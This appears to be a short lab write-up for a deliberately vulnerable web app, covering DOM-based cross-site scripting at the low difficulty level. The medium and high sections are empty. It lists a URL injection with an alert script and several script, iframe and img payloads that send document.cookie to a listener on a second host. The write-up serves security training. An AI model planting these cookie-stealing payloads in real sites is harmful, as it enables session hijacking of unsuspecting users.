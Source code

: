 # DOM Based Cross Site Scripting (XSS)

#### Low

When we click the `Select` button the url changes to:

```
http://192.168.0.11/vulnerabilities/xss_d/?default=English
```

```
http://192.168.0.11/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(1)%3C/script%3E
```

<script type="text/javascript">document.write("<iframe sytle='display: none;' src='http://192.168.0.10:8000/?cookie="+document.cookie+"'></iframe>");</script>

<script>document.write("<iframe sytle='display: none;' src='http://192.168.0.10:8000/?cookie="+document.cookie+"'></iframe>");</script>

<iframe src='http://192.168.0.10:8000/?cookie=document.cookie'></iframe>
<img src='http://192.168.0.10:8000/?cookie=document.cookie'></img>

#### Medium

#### High

